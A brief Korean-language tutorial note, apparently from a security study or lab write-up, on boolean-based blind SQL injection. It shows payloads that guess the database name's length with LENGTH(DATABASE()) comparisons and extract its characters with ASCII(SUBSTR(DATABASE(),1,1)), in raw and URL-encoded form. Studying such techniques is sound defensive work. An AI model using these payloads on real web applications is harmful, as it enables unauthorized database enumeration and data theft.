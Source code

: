 ### 데이터베이스 이름 길이 추출

```sql
#길이 확인 - >,<로 대략적인 크기 유추 가능
URLQuery AND LENGTH(DATABASE()) < 5

#원본 형태
URLQuery AND LENGTH(DATABASE()) = 5

#URL 인코딩 후
URLQuery+AND+LENGTH(DATABASE())+%3D+5
```

- URL에 SQL 쿼리문이 존재하여 SQL Injection 시도
- 연산자에 부등호(<,>)를 이용하여 대략적인 데이터베이스 이름명의 길이를 유추 가능

### 데이터베이스 첫 이름 추출

```sql
#URL 인코딩 전
ASCII(SUBSTR(DATABASE(),1,1)) = 122

#URL 인코딩 후
ASCII(SUBSTR(DATABASE()%2C1%2C1))+%3D+122
```

- DATABASE() : 데이터베이스 이름 추출
- SUBSTR(문자열, 시작인덱스, 종료인덱스) : DATABASE() 함수의 반환값인 문자열의 일부분(한글자)만 추출
- ASICII(문자) : 추출한 문자를 아스키 코드 숫자로 변환하여 값을 확인
